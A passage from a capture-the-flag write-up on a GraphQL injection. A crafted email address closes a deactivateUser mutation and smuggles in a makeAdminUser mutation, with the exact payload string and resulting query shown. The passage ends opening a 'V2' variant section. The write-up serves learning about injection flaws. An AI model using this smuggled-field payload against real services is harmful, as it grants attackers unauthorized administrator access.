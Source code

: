 To solve this issue we can make our domain and " a `#comment`, remember the `#` is allowed !

So we get : `"}){success} makeAdminUser(user:{id:1}){  #"@cdm.com`

Which gives us 

```python
mutation {
            deactivateUser (user: {email: "" }) { success } makeAdminUser( user: { id: 1 } ) { #"@cdm.com
                success
            }
        }
```

A correct query !!! 

Shoutout  to `coutinho21` for the help !

Now we just need to create a user with this email `"}){success} makeAdminUser(user:{id:1}){  #"@cdm.com` , making sure id corresponds with this same user's id and login, wait a few seconds for the deactivation task and _voilá_ we get the flag !

![](https://github.com/Coutinho-David/WriteUps/blob/main/GNPCTF25/Screenshot%202025-06-23%20at%2018.21.32.png))


--- 

# THE V2 

The V2 has one simple code change, you no longer can use id on the MakeAdminUser mutation, so you are required to use email. 

This : `makeAdminUser(user: { id: 1 })` does **not** work
